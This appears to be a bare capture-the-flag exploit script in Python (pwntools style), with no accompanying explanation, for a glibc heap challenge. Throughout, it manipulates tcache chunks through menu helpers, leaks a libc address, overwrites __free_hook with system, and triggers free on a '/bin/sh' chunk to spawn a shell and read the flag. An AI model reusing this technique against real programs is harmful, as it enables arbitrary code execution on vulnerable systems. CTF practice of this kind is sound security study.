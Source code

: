 ```
    sla(">> \n","5")
    sea("your name:\n",content)

add(0,0x10)
add(1,0x10)
add(7,0x20)
add(8,0x20)
for i in range(2,7):
    add(i,0x10)

for i in range(9,15):
    add(i,0x20)

for i in range(2,7):
    free(i)
    edit(i,p64(0))
free(0)
edit(0,p64(0))
free(1)
edit(1,p64(0))

for i in range(9,14):
    free(i)
    edit(i,p64(0))
free(7)
edit(7,p64(0))
free(8)
edit(8,p64(0))

for i in range(2,7):
    free(i)

free(0)
free(1)

for i in range(9,14):
    free(i)

free(7)
free(8)

merge('a')

add(0,0x30)
add(1,0x40)
show(0)
libc_base = u64(rc(6).ljust(8,b"\x00"))-0x3ebec0
msg("libc_base",libc_base)
libc.address = libc_base

edit(0,p64(0)*3+b'/bin/sh\x00')
edit(1,p64(0)*5+p64(libc.sym["__free_hook"]-0x8))

add(0,0x10)
add(1,0x20)
add(1,0x20)

edit(1,p64(libc.sym["system"]))

free(0)
sl("cat flag")

ri() 
```